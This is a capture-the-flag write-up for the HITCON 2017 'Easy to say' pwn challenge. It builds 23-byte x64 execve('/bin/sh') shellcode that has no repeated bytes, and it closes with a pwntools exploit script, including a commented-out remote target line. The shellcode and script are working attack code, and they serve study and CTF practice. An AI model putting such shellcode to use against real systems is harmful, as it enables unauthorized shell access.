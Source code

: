 ```yaml
---
title: "Hitcon2017 -- EasyToSay Writeup"
categories:
  - Hitcon2017
tags:
  - CTF
  - pwn
  - shellcode
---
```


<div class="notice--info">
<strong>Name</strong>: Easy to say<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 144<br>
<strong>Solves</strong>: 139<br>
<strong>Given</strong>: <code>easy_to_say</code>
</div>


# Solution:
## The problem
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.

## How do we prevent repeated bytes?
In this section I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode

First lets try a **basic x64 shellcode** and see if there are any reapeating bytes. That looks something like :
1. put '/bin/sh\x00' on the stack
2. put that stack address in rdi (filename)
3. make rsi (argv) equal 0
4. make rdx (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4  for free since all registers are already zero'd from the start. The rest looks something like this:

```nasm
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp      ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b      ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's

As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push`s is not an option since the opcode will be repeated. Lets try and do it with a `mov` intead of a `push` and see if we have better luck.
```nasm
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```
That is better but '/bin/sh\x00' contains two '/' (2f) and that is a problem since it is a repeated byte.

Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`.

Let's try another version:
```nasm
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```
Alright, now we only have to somehow remove the extra '/'.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.
```nasm
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!

# Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated in the shellcode." % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```